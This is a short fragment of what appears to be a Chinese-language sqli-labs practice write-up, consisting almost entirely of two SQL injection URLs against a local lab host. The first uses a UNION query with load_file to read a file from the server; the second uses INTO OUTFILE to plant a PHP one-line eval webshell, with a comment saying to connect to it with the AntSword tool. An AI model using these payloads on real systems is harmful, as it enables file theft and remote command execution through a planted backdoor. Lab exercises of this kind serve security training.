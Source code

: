 ```sql
http://192.168.65.128/sqli-labs/Less-1/?id=-1'
union select 1,(load_file("C:\\phpStudy\\MySQL\\data\\dump.txt")),3
```

![](file/image_p_eOrNNrKu.png)

```sql
//写入一句话木马，使用蚁剑连接
http://192.168.65.128/sqli-labs/Less-7/?id=-1')) 
union select 1,"<?php @eval($_POST['cmd']); ?>",3 into outfile "C:\\phpStudy\\www\\sqli-labs\\Less-7\\dump.php" --+  
```

![](file/image_9sRw4JUbx3.png)
